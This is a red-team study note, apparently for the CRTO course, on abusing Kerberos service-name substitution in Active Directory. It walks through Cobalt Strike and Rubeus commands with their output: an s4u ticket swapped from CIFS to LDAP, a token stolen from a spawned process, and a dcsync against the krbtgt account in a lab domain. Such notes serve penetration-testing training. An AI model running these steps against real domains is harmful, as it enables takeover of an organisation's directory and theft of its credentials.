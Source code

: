 
The [[Service Principal Name (SPN)]] information in the [[Ticket Granting Ticket (TGT)]] is not encrypted and can be changed arbitrarily.
We can request a service for one thing, but then modify the SPN to have further actions into another service.

### 🖊️ via Cobalt Strike

1) You will need to obtain a TGT, via a method like [[Constrained Delegation]] 
2) With the TGT at hand, we will request a new TGS but for a different service than this was originally created for using flag `altservice`

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /altservice:ldap /user:sql-2$ /ticket:doIFpD[...]MuSU8= /nowrap

In this example, during the constrained delegation process we got a ticket for [[CIFS]] service. We alternate it to an ldap  ticket.

3) With the new ticket we can create a new local process with the integrity of the ticket and then [[Steal the token]] to further do actions in the remote machine

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGaD[...]ljLmlv
	
[*] Using DEV\nlamb:FakePass

[*] Showing process : False
[*] Username        : nlamb
[*] Domain          : DEV
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2580
[+] Ticket successfully imported!
[+] LUID            : 0x4b328e
			
beacon> steal_token 2580
```

4) You could try something like a dcsync against the DC with this new token

`beacon> dcsync dev.cyberbotic.io DEV\krbtgt`

What's important is that now you have a token with certain users integrity and able to execute actions on the remote box. 

### ⚠ Opsec




### Properties
---
📆 created   {{19-02-2024}} 09:28
🏷️ tags: #redteam #crto 

---

